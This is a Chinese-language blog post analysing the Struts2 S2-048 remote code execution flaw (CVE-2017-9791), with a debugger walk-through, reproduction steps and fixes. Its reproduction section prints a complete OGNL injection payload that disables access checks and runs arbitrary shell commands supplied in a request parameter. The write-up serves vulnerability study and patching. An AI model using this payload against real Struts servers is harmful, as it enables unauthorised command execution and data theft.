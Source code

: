 ```yaml
---
layout: post
title:  "Struts2-048漏洞分析"
date:   2017-07-13 10:02:01 +0800
categories: 漏洞分析
tag: 代码执行漏洞
---
```


* content
{:toc}



![strust2]({{ '/styles/images/struts2/strust2.jpg' | prepend: site.baseurl  }})

## 1.&emsp;漏洞描述 ##

* 漏洞描述：当Struts 2中的  Struts 1插件启用的情况下，攻击者通过使用恶意字段值可能造成RCE。这些不可信的输入数据被带入到ActionMessage类中的错误信息中。
* 漏洞编号：CVE-2017-9791
* 漏洞作者：icez ic3z#qq.com
* 影响版本：Struts 2.3.x
* 漏洞等级：高危

## 2.&emsp;漏洞简介 ##

|------|---|
|Who should read this|All Struts 2 developers and users should read this|
|Impact of vulnerability|Possible RCE when using the Struts 2 Struts 1 plugin|
|Maximum security rating|High|
|Recommendation|Please read the Solution section|
|Affected Software|Struts 2.3.x with Struts 1 plugin and Struts 1 action|
|Reporter|icez <ic3z at qq dot com> from Tophant Competence Center|
|CVE Identifier|CVE-2017-9791|

## 3.&emsp;漏洞分析 ##

### 3.1&emsp;漏洞说明 ###

&emsp;&emsp;Apache Struts2.3.x系列版本中struts2-struts1-plugin存在远程代码执行漏洞，进而导致任意代码执行。

### 3.2&emsp;漏洞原理分析 ###

&emsp;&emsp;从官方的漏洞描述我们可以知道，这个漏洞本质上是在struts2-struts1-plugin这个jar包上。这个库是用将struts1的action封装成struts2的action以便在strut2上使用。本质原因还是在struts2-struts1-plugin包中Struts1Action.java中execute函数调用了getText函数，这个函数会执行ognl表达式，更可恶的是getText的输入内容还是攻击者可控的。以下分析基于struts2的官方示例struts2-showcase war包。

&emsp;&emsp;Eclipse直接导入官方showcase.war,反编译出jar包中的源码，进行debug调试。

1. 运行该工程，点击Intergration按钮的Strust1 Intergration功能，进入如下页面：

![strust2]({{ '/styles/images/struts2/1.png' | prepend: site.baseurl  }})
2. 在输入框中输入以下参数进入debug模式

![strust2]({{ '/styles/images/struts2/2.png' | prepend: site.baseurl  }})
3. 可以看到断点进入struts2-struts1-plugin.jar中的Struts1Action.class中的execute函数，截图处即为调用SaveGangsterAction处，查看actionForm值可以看到我们输入的参数全都传递进来。

![strust2]({{ '/styles/images/struts2/3.png' | prepend: site.baseurl  }})
4. 进入org.apache.struts2.showcase.integration包中的SaveGangsterAction.java类，通过gform.getName()获取name参数添加到msg中。
![strust2]({{ '/styles/images/struts2/8.png' | prepend: site.baseurl  }})

5. 继续往下走，回到Struts1Action.class中，可以看到把actionForm里的name值经过处理给了messages

![strust2]({{ '/styles/images/struts2/4.png' | prepend: site.baseurl  }})
6. 继续跟踪，走到xwork-core.jar的com.opensymphony.xwork2.util包的LocalizedTextUtil.class类

![strust2]({{ '/styles/images/struts2/5.png' | prepend: site.baseurl  }})
7. F5进入函数，走到translateVariables函数看到我们的参数expression执行了ognl表达式

![strust2]({{ '/styles/images/struts2/6.png' | prepend: site.baseurl  }})
8. 走完回来，继续查看mf的值，可以看到${111+9}已经被执行，执行结果也返回回来

![strust2]({{ '/styles/images/struts2/7.png' | prepend: site.baseurl  }})
9. 查看网页，看到${111+9}被执行成120并成功返回到页面中

![strust2]({{ '/styles/images/struts2/9.png' | prepend: site.baseurl  }})

## 4.&emsp;漏洞复现(查看文件内容) ##

1. 访问工程的struts1插件功能模块，在输入框输入攻击payload：

		%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd=#parameters.cmd[0]).(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
![strust2]({{ '/styles/images/struts2/10.png' | prepend: site.baseurl  }})
2. 通过burpsuite进行数据包拦截，拦截到数据包直接send to Repeater，构造任意命令执行转发数据包。在post参数中添加cmd参数执行命令。

![strust2]({{ '/styles/images/struts2/11.png' | prepend: site.baseurl  }})<br>
3. 点击Run按钮进行数据包转发，查看结果，成功返回查看文件内容：

![strust2]({{ '/styles/images/struts2/12.png' | prepend: site.baseurl  }})

## 5.&emsp;修复方案 ##

*  官方解决方案官方已经发布了版本更新，建议用户升级到Struts 2.5.10.1版本，下载链接如下所示：

[https://github.com/apache/struts/releases/tag/STRUTS_2_5_10_1](https://github.com/apache/struts/releases/tag/STRUTS_2_5_10_1 "https://github.com/apache/struts/releases/tag/STRUTS_2_5_10_1")

[http://struts.apache.org/download.cgi](http://struts.apache.org/download.cgi "http://struts.apache.org/download.cgi")

*  临时修复方案

开发者通过使用资源调用方式替代原始值传递方式给ActionMessage的方式。 如下所示：

	messages.add("msg", new ActionMessage("struts1.gangsterAdded", gform.getName()));

不要使用如下的方式：

	messages.add("msg", new ActionMessage("Gangster" + gform.getName() + "was added"));

* 在非必要的情况下禁用struts2-struts1-plugin插件。将struts2-struts1-plugin-2.3.x.jar文件从 “/WEB-INF/lib”目录中移动到其他文件夹或者删除。